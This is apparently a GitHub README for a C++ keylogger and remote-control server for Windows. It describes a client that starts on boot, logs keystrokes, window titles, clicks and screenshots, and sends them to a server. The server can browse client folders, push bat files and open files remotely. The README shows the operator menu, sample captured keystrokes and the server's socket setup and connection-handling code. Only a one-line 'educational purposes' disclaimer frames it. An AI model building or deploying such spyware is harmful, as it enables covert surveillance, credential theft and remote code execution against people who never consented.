


[GitHub](https://github.com/hsjinde/KeyLogger-Server)

[Chinese version 繁體中文版本](/VjVmLnW4R0a2aWfQfGuntQ)

## Table of Contents
- [Overview](#overview)
- [Development Environment](#development-environment)
- [Usage](#usage)
- [About Keylogger Server](#about-keylogger-server)
- [Disclaimer](#disclaimer)
- [License](#license)
- [References](#references)

## Overview

### I. Server
1. One-to-many communication program (server can handle multiple connections simultaneously)
2. Control interface
   - Enter the corresponding number to activate the function

```plaintext
*********************************************
*   Successfully initialized Winsock API.   *
* Successfully created folders Serverlog/IP *
*   Successfully listening on port 4790.    *
*********************************************
*********************************************
*                                           *
*        Welcome To Keylogger Server        *
*                          by Jin-De        *
*                                           *
*********************************************
*********************************************
* 1. View the list of connected clients     *
* 2. View the log messages                  *
* 3. Send a bat file to clients             *
* 4. View client folder list                *
* 5. View client's current folder location  *
* 6. Execute a file on the client           * 
* 7. Shut down the server                   * 
*********************************************
Please enter your choice:
```
- View the list of connected `clients` : View the log of connected clients.
- Send a bat file to clients : Send a specified file from the `server` to `all clients`.
- View `client folder` list : Enter a specified folder path to view the files and folders under that path. <br>
Example: Enter `D:` to view the contents of the D drive.
```=
Please enter your choice:
New connection accepted!
4
Please enter the full path of the folder: D:
Successfully sent folder information request to all clients

Press Backspace to go back...
From IP: 10.10.0.1
Folder content:
Folder: $RECYCLE.BIN
Folder: esm
Folder: helloDocker
Folder: hyper-V
Folder: Keylogger-master
Folder: labelImg
Folder: node
Folder: node.js_pr
Folder: out
File: Parrot-security-5.3_amd64.iso
Folder: project-1
Folder: System Volume Information
Folder: ultralytics
Folder: VCPNG
Folder: workspace
Folder: yolo
Folder: 考核_version

```
- View `client's current folder` location: Report the absolute location of the running file.
- Execute a file on the `client` : Enter a specified path to open any file on the `client`.
- Shut down the `server`.

1. Server creates a folder (Serverlog) to record information post by `client`
    - Create different folders based on IP.
    - Create a file to record client information (time, IP), and write to the file in append mode.
    - Record the returned message in the following format: <br>
    ```
    DIR : Serverlog 
        └─File : Client.txt
        └─DIR : IP 
            └─File : IP_時間.txt
            └─File : 時間.bmp
    ```
### II. Client
- Automatically starts upon boot
- Records keystrokes of the current user
- Records the current and switched window names and timestamps when the user changes windows
- Records mouse clicks
- Takes screenshots of the client's screen
- Periodically sends files back to the `server`
    - log.txt output:
```=
Received Chat Message:
[LMB]
Active Window Title: 新分頁 - Google Chrome - Time: 2023-12-14_14-43-00
[LMB]I[SPACE] [BACK]I[SPACE] AM[SPACE] A[SPACE] BOY[ENTER]
[LMB]
Active Window Title: i am a boy - Google 搜尋 - Google Chrome - Time: 2023-12-14_14-43-15
THIS[SPACE] IS[SPACE] A[SPACE] TEST[ENTER]

Active Window Title: THIS IS A TEST - Google 搜尋 - Google Chrome - Time: 2023-12-14_14-43-25


Press any key to refresh
Press Backspace to go back
```

Development Environment
===
+ Window 7/10/11
+ [Microsoft Visual Studio](https://visualstudio.microsoft.com/zh-hant/downloads/) (ISO C++ 17) 

Usage
===
- In `KeyLogger-Server\PNet\Server`, find `Source.cpp`
    - Define the server's IP location and the specified port.
```c++
if (socket_.Listen(IPEndpoint("0.0.0.0", 4790)) == PResult::P_Success)
```
- In `KeyLogger-Server\PNet\Client`, find `Source.cpp`
    - Define the server's IP location and the specified port.
```c++
if (socket.Connect(IPEndpoint("10.10.0.1", 4790)) == PResult::P_Success)
```

About Keylogger Server
===
### I.Server

1. `Server initialization`: Initialize Winsock API, create a socket, and listen for connections on a specified port (e.g., 4790).

    A.Initialize Winsock
    ```c++
    Network::Initialize()
    ```
    B.Create Socket
    ```c++
    socket_ = Socket(IPVersion::IPv4);
    socket_.Create() == PResult::P_Success;
    ```
    C.Bind and Listen
    ```c++
    socket_.Listen(IPEndpoint("0.0.0.0", 4790)) == PResult::P_Success)
    ```
2. Wait for `client` connections: Use a separate thread to accept `client` connections. Create a new socket to handle each connected client.

    D.Accept Connections
    ```c++=
    void AcceptConnections() {
        // Create a vector to store client threads
        std::vector<std::thread> clientThreads;

        // Continuously accept connections
        while (true) {
            // Create a new connection
            Socket newConnection;

            // Add the new connection to the list of connected clients
            connectedClients.push_back(newConnection);

            // Create a new thread to handle the client
            std::thread thread(&ChatServer::HandleClient, this, std::move(newConnection));

            // Store the thread in the vector
            clientThreads.push_back(std::move(thread));

            // Move ownership of the connection to the list
            newConnection = std::move(newConnection);
        }

        // Wait for all client threads to finish
        for (std::thread& thread : clientThreads) {
            thread.join();
        }
    }
    ```

3. Client management: Use a map (connectedClients) to track all connected `clients`. Use a separate thread (HandleClient) to handle communication with each client.

    E.HandleClient

    ```c++=
    void HandleClient(Socket clientSocket) {
        Packet packet;

        // Get client IP
        std::string clientIP = GetClientIP(clientSocket);

        // Log client IP to file
        LogClientIPToFile(clientIP);

        while (true) {
            PResult result = clientSocket.Recv(packet);
            if (result != PResult::P_Success)
                break;

            if (!ProcessPacket(clientSocket, packet))
                break;
        }

        clientSocket.Close();

    }
    ```

### II.Client

1. `Client` initialization: Initialize Winsock API, create a socket, and attempt to connect to the `server` on the specified port.
2. Connection successful: Once connected, the `client` can start a separate thread to receive packets from the server; if the connection fails, wait for a while, and then attempt to reconnect.

### Packet Types
The project has the following packet types:
- `PT_ChatMessage`: Handles text messages.
- `PT_FileFolderInformation`: Server requests folder information from clients.
- `PT_CurrFolder`: Server requests the current folder location from clients.
- `PT_OpenData`: Server sends a specified command to clients to open a specific document.
- `PT_BMPSize`: Informs the server about the size of a BMP file.
- `PT_BMPFile`: Clients send BMP image files (in base64 format) to the server.
- `PT_BMPSave`: Sent by clients after sending the BMP file to inform the server.

Disclaimer
===

This software is for educational purposes only. No responsibility is held or accepted for misuse.

License
===
2023 Jin-De Lin
[MIT License](https://github.com/hsjinde/KeyLogger-Server/blob/main/LICCENSE)

References
===
Keylogger : <https://github.com/PictureElement/basic-keylogger/tree/master> <br>
base64 : <https://renenyffenegger.ch/notes/development/Base64/Encoding-and-decoding-base-64-with-cpp/> <br>
socket : <https://github.com/shridharnator/PNet><br>
icon : <https://github.com/Ileriayo/markdown-badges?tab=readme-ov-file> <br>
canva : <https://www.canva.com/>